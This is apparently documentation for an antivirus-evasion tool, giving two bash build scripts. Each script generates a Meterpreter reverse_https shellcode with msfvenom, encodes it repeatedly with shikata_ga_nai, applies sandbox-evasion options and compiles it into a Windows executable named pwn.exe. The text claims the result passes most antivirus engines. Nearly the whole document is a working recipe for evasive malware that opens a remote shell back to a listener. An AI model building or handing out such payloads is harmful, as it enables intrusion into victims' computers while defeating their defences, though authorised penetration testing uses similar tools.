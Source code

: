 Here are some explained examples for building the .exe files from the build directory. Please have a look at the other build scripts for further explanation.


Example 1
---------
Compile shellcode into the .exe file and use -F as evasion technique. Note that this example will work for most antivirus engines. Here -E is used for encoding the shellcode as ASCII.

```
#!/bin/bash          
# simple example script for building the .exe file
# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh
# make meterpreter reverse payload, encoded with shikata_ga_nai
# additionaly to the avet encoder, further encoding should be used
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.116.132 lport=443 -e x86/shikata_ga_nai -i 3 -f c -a x86 --platform Windows > sc.txt
# format the shellcode for make_avet
./format.sh sc.txt > scclean.txt && rm sc.txt
# call make_avet, the -f compiles the shellcode to the exe file, the -F is for the AV sandbox evasion, -E will encode the shellcode as ASCII
./make_avet -f scclean.txt -F -E
# compile to pwn.exe file
$win32_compiler -o pwn.exe avet.c
# cleanup
rm scclean.txt && echo "" > defs.h
```

Example 2
---------
Usage without -E. The ASCII encoder does not have to be used, here is how to compile without -E. In this example the evasion technique is quit simple! The shellcode is encoded with 20 rounds of 
shikata-ga-nai, often enough that does the trick. This technique is pretty similar to a junk loop. Execute so much code that the AV engine breaks up execution and let the file pass.

```
#!/bin/bash          
# simple example script for building the .exe file
# include script containing the compiler var $win32_compiler
# you can edit the compiler in build/global_win32.sh
# or enter $win32_compiler="mycompiler" here
. build/global_win32.sh
# make meterpreter reverse payload, encoded 20 rounds with shikata_ga_nai
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.116.128 lport=443 -e x86/shikata_ga_nai -i 20 -f c -a x86 --platform Windows > sc.txt
# call make_avet, the sandbox escape is due to the many rounds of decoding the shellcode
./make_avet -f sc.txt
# compile to pwn.exe file
$win32_compiler -o pwn.exe avet.c
# cleanup
echo "" > defs.h
```
